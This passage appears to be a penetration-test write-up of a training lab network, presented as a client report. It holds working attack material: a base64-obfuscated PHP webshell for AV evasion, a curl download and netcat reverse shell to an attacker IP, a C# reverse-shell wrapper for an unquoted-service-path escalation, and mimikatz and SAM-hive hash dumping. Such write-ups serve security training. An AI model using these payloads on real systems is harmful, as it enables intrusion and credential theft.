


Then we run the `privilege::debug` and `token::elevate` commands to grant ourselves 'Debug' access and elevate our account to SYSTEM level using token impersonation.


Once we've successfully elevated our permissions, we can dump the password hashes from the system with `lsadump::sam`



We can extract the hashes from the `Administrator` account as well as the `Thomas` account. After putting the hash for Thomas' account into the free tool 'Crackstation', we are presented with the unhashed password.

This is the password used by the client on the Git server.

### Pass the Hash

Now we've extracted the Administrator hash, we can use `Evil-WinRM` to maintain access to the system should the network be reset.



## Enumeration - Personal Machine

Utilising the hashes that we acquired previously, we can use `Evil-WinRM` to host a script on the system without actually loading it onto the filesystem itself (to help avoid detection).



With this, we load the `Invoke-Portscan` module from the Empire C2 Framework to scan the rest of the network without having to transfer an nmap binary over to this machine as well (and also to avoid running nmap through multiple layers of traffic).



Upon scanning the network, we can now see live ports for the `10.200.101.100` machine (which previously were filtered).



This reveals to use that there is another webserver running on that machine, as well as RDP access.

Because we used `sshuttle` to set up our tunnel previously, we can utilise a tool called `chisel` to link this machine back through our chain.

We'll use `Evil-WinRM` to upload our binary to the `temp` directory and use that to pass our connections through our chain.



We'll then set up the listener on the compromised machine, setting it to use the `socks5` protocol.



Then, on our attacking machine, we run the `chisel` client and set it to `socks` mode.



Finally, we can use Firefox with the FoxyProxy Add-on to add our new SOCKS proxy to our browser.



Now, we can navigate to http://10.200.101.100 and find that we have access to the website hosted on the client's personal machine.


### Webpage Fingerprinting

We can use the Add-on Wappalyzer to reveal that the page is running PHP version 7.4.11. This also shows us that the website is a copy of the one running on the webserver (`10.200.101.200`).

### Exploring the Git Server

Now we know that the websites are the same, it is safe to assume that the Git Server is hosting the files being used on this machine - presumably as a development instance.

Going back to the Git Server, we can see there is the following directory: `C:\GitStack\respositories\Website.git`

Using `Evil-WinRM` to download the file, we can take a copy of the git repository to look through on our local machine.





### Extracting the Git Repository

We will use a tool called `GitTools/Extractor` to re-create the repo based on the files we've obtained. 



This provides us with a few directories containing the last few commits that we can comb through for more information.



Using the following one-liner, we can identify which of the commits are the most recent:

`separator="======================================="; for i in $(ls); do printf "\n\n$separator\n\033[4;1m$i\033[0m\n$(cat $i/commit-meta.txt)\n"; done; printf "\n\n$separator\n\n\n"`

This reveals that the 0-345[...] folder is the most recent commit.



Now that we've narrowed down the most recent commit, we can look through to see which files have most recently been updated.



This identifies that the `index.php` file has been updated. Looking through the source code, we can see that the file mentions a 'Ruby Image Upload Page' located at `/resources`.

This seems to have a form that an image can be uploaded with as well as a note stating that the filter needs to be improved.

## Exploitation - Content Filtering Bypass

After looking at the filter more closely, we can see that there is some filtering done on the file extension of the uploaded file.



However, the way the filter confirms the file extension is by splitting the filename on a '.' character. This means "image.jpeg" becomes ["image", "jpeg"], but "image.jpeg.php" would become ["image.jpeg", "php"].

Additionally, it also shows that files get added to an `uploads/` directory.

Navigating to `/resources` we are blocked by a login prompt. Using the previously compromised password from the Git Server, we are able to gain access to this file upload page.


### Testing the File Upload

Now that we have access to the page, we can upload a normal picture to identify whether or not the image is accessible in the `uploads/` folder or not.

By uploading a simple image called 'cat.jpg' to the site, we find that we can access it at `/resources/uploads/cat.jpg`. This means we can use this as a method to get a webshell.

### Crafting a Payload

In order to bypass the filter, we can change the image file to `cat-shrike.jpg.php` and modify the exifdata of the image.

We can use a benign payload to see if it is successful without triggering any potential A/V solutions.


By uploading this file and navigating to it in the browser, we find that we can see the "Test Payload" string is present on the page. This means we can upload our code successfully this way.

### AV Evasion

Assuming that the system is running Windows Defender (given it is a Windows machine), the actual payload needs to avoid triggering Defender.

To do that, we need to obfuscate the payload with base64 encoding.

Starting Payload:
```php
<?php
    $cmd = $_GET["wreath"];
    if(isset($cmd)){
        echo "<pre>" . shell_exec($cmd) . "</pre>";
    }
    die();
?>
```

Obfuscated Payload (with escaped dollar signs for bash):
```php
<?php \$p0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$p0)){echo base64_decode('PHByZT4=').shell_exec(\$p0).base64_decode('PC9wcmU+');}die();?>
```

We now repeat the same process as we did with our benign payload to add it to the image's exif data.


We upload our image and find that we get an 'Undefined Index' error - meaning it has worked.

Now we have a working webshell, we can use the `wreath` parameter to run commands.

Visiting `http://10.200.101.100/resources/uploads/cat-shrike.jpg-php?wreath=hostname` we can see that we identify the machine as `wreath-pc`.


### Stablising the Shell

Because we are assuming that Windows Defender is on the machine, most payloads (such as those created with `msfvenom`, `php`, `powershell` etc) will be detected. As such, we compile a custom `netcat` binary to avoid detection.

We clone the GitHub repo for `netcat` and modify the included `Makefile` to use the `x86_64-w64-mingw32-gcc` compiler and the build the binary.

Then, we use a temporary python webserver once more to uplaod the file to our target.

Because of the AV concerns, it's best to use the existing binaries on the system, such as `curl.exe` or `certutil.exe`. 

In this case, we can run `CertUtil.exe -dump` and see if it runs. It does, but Defender will most likely mark this as malicious. So, we use `curl.exe` instead.

Running `curl http://<attacking_ip>/nc.exe -o c:\\windows\\temp\\nc-shrike.exe` gives us our `netcat` payload on the target machine.

Then, we set up a listener on our attacking machine and run the following PowerShell command to gain a full reverse shell:

`powershell.exe c:\\windows\\temp\\nc-shrike.exe 10.50.102.37 443 -e cmd.exe`

## Privilege Escalation - Personal Machine

### Finding an Exploitable Service

Running the `whoami` command reveals that we are not the system account for the machine, but the `thomas` user. As such, we'll need to look for methods to escalate privileges.


We also identify which services are running in the user space.


It seems that one of the services is not using a quoted path, which means it may be vulnerable to an 'Unquoted Service Path Attack' vulnerability.

We check to see if it is running as the `NT AUTHORITY\SYSTEM` account with the following command:

`sc qc SystemExplorerHelpService`


We can see that the service is running as the `LocalSystem` account. Next, we check the directory it is located in to see if we can write to it.


It looks as though all users have full control of this directory - we can modify the files here.

### Creating System.exe

Because the service path was not quoted, it means that the service may also look for executables named `System.exe` within that directory. We build a wrapper around our `netcat` binary but call it `System.exe` so that it is executed instead of the expected `SystemExplorer.exe` program.

Because we know there is an AV solution on the machine, we write a wrapper for our existing binary using C#.

Wrapper.cs:
```cs
using System;
using System.Diagnostics;

namespace Wrapper{
    class Program{
        static void Main(){
            Process proc = new Process();
            ProcessStartInfo procInfo = new ProcessStartInfo("c:\\windows\\temp\\nc-shrike.exe", "10.50.102.37 18666 -e cmd.exe");
            procInfo.CreateNoWindow = true; //Prevents a GUI window from being displayed.
            proc.StartInfo = procInfo;
            proc.Start();
        }

    }
}
```

We run `mcs Wrapper.cs` to compile it and then use the Impacket `smbserver.py` to make it available to our target machine using our credentials.


We then run the script directly from the SMB share without touching the filesystem.


We set up a listener on our attacking machine for the port we specified in the wrapper (in this case, `444`).


Now, we need to rename this file to `System.exe` and move it to our directory.


We simply stop the service and restart it to force our application to run.

After the service restarts, we have an `NT AUTHORITY\SYSTEM` level reverse shell on the machine.


## Post-Exploitation - Administrator Hashes

Now we have SYSTEM access, we can dump the hash of the `Administrator` account. As `mimikatz` would most likely trigger the AV solution, we can create a local dump and transfer it out of the machine.

To do so, we can run `reg.exe save HKLM\SYSTEM system.bak` and `reg.exe save HKLM\SAM sam.bak` and then move the files into our Impacket SMB share.

Once that's done, we can use the Impackey `secretsdump.py` script to extract the hashes.


# Cleanup

After the engagement, the following actions were taking to clean up afterwards:

- Binary files on Webserver were removed
- User Account on Git Server was removed
- Firewall rules on Git Server were removed
- Binary files on Git Server were removed
- Uploaded images within the `/resources/uploads` folder on wreath-pc webserver were removed.

No further clean up should be required by the client after this engagement.


# Conclusion

The client's network displayed a lack of consistent security patching and a number of weak spots when it comes to credentials creation and management. Overall, the network was compromised using off-the-shelf tooling with very little modifications. Shrike InfoSec recommends that the client ensure they have a regular patching schedule for all services, including those only accessible internally. Software and Services should be run following the principle of least privilege and ensure that permissions are adequetely set for the software/service in question. Shrike InfoSec also recommends that the client undertakes regular vulnerability scanning of their network, both internally and externally.